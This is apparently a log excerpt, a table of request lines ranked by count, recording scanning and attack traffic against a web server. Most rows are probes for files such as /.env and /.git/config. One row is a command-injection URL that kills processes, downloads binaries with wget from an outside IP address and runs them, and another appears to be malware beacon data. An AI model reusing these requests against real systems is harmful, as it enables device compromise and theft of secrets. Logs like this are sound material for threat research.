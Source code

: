 |  18 |                     6 | GET /actuator/health HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |
|  19 |                     6 | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+drea4+efefa7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1                                                                                      |
|  20 |                     6 | MGLNDD_xxx.xxx.xxx.xxx_80                                                                                                                                                                                                                                                                                                                                                                           |
|  21 |                     6 | GET /portal/redlion HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                        |
|  22 |                     6 | PUT /SDK/webLanguage HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |
|  23 |                     5 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                               |
|  24 |                     5 | HEAD / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                     |
|  25 |                     5 | GET /.env.save HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                             |
|  26 |                     5 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                           |
|  27 |                     5 | GET /api/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                              |
|  28 |                     5 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                        |
|  29 |                     4 | POST /api/client/update?arch=amd64&commit=08059e95dacafe0bf6e5782f8e2c8ec9cd8c5a17&os=windows HTTP/1.1                                                                                                                                                                                                                                                                                              |
|  30 |                     4 | 238\x00ll|'|'|SGFjS2VkX0Q3NUU2QUFB|'|'|WIN-QZN7FJ7D1O|'|'|Administrator|'|'|18-11-28|'|'||'|'|Win 7 Ultimate SP1 x64|'|'|No|'|'|S17|'|'|..|'|'|SW5ib3ggLSBPdXRsb29rIERhdGEgRmlsZSAtIE1pY3Jvc29mdCBPdXRsb29rAA==|'|'|                                                                                                                                                                                |
|  31 |                     4 | \x10 \x00\x00BBBB\xBA\x8C\xC1\xABDAAA                                                                                                                                                                                                                                                                                                                                                               |